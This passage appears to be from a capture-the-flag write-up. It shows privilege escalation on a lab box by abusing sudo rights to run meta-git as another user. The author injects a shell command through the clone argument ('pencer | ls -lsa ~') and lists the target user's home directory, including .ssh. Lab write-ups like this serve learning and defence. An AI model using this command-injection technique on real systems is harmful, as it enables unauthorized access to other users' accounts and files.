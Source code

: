 ## Meta-Git

Interesting. Next we can check sudo permissions:

```sh
-bash-5.0$ sudo -l
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

I haven't used meta-git before, looking on GitHub we see it's description:

```text
Manage your meta repo and child git repositories.
git plugin for meta.
```

## Meta-Git RCE

A search for **meta-git exploit** finds [this](https://snyk.io/advisor/npm-package/meta-git#security) on Synk.io which leads us to [this](https://hackerone.com/reports/728040) on hackerone. We have a simple RCE exploit which we can combine with sudo permissions to execute as the developer user.

For instance we can look in the developer home folder with this:

```sh
sudo -u developer /usr/local/bin/meta-git clone 'pencer | ls -lsa ~'
```

Except it doesn't work if we are still in the gbyolo users home folder:

```sh
-bash-5.0$ pwd
/home/gbyolo
-bash-5.0$ sudo -u developer /usr/local/bin/meta-git clone 'pencer | ls -lsa ~'
meta git cloning into 'pencer | ls -lsa ~' at pencer | ls -lsa ~
pencer | ls -lsa ~: command 'git clone pencer | ls -lsa ~ pencer | ls -lsa ~' exited with error: Error: spawnSync /bin/sh EACCES
(node:45847) UnhandledPromiseRejectionWarning: Error: EACCES: permission denied, chdir '/home/gbyolo/pencer | ls -lsa ~'
```

So first move to /dev/shm then try again:

```sh
-bash-5.0$ sudo -u developer /usr/local/bin/meta-git clone 'pencer | ls -lsa ~'
<SNIP>
   4 drwxr-xr-x 2 developer developer    4096 Jun 23 18:50 .ssh
   8 -rw------- 1 developer developer    7220 Jul 21 20:27 .viminfo
   4 -rwxrwxr-x 1 developer developer      65 Jul 21 20:27 sendmail.sh
   4 -rw-r----- 1 root      developer      33 Jul 21 10:56 user.txt
```
